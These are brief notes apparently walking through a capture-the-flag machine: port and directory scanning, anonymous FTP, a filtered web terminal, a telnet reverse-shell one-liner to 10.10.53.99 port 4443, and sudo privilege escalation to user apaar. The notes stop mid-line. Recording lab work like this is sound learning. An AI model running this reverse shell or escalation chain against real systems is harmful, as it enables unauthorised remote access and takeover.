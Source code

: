 [Back to Table of Contents](../cysec)

nmap

ssh

ftp

gobuster

/images

/secret/

ftp -> anonymous

note.txt:

Anurodh told me that there is some filtering on strings being put in the command -- Apaar

/secret/ --> web terminal

revshells.com --> telnet

```

TF=$(mktemp -u);mkfifo $TF && telnet 10.10.53.99 4443 0&lt;$TF | /bin/bash 1&gt;$TF

```

sudo -l 

/home/apaar/.helpline.sh --> sudo priv for apaar

sudo -u apaar ./helpline.sh --> /bin/bash --> id = apaarcd /home/